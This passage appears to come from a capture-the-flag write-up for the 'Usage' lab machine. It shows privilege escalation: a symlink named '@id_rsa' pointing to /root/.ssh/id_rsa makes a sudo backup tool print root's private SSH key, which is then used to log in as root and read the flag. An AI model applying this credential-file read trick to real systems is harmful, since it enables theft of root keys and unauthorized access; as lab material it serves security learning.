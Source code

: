 ```bash
Archive size: 54829705 bytes (53 MiB)

Scan WARNINGS for files and folders:

fd70b103607e29------------------- : No more files
----------------
Scan WARNINGS: 1
```

There it is in the middle of the binary output and at the end the user flag from the user txt file. Now all I need to do it change this to the root's id_rsa and ssh in. 

```bash
xander@usage:/var/www/html$ touch @id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

...

-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAA------------------- : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqj------------------- : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B------------------- : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbS------------------- : No more files
H2sfTWZeFDLGmqMhrqDdAAAAC-------------------------------------- : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7
```

```bash
ssh -i root_rsa root@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...
root@usage:~# cat root.txt
832e7c67bfc784------------------
```





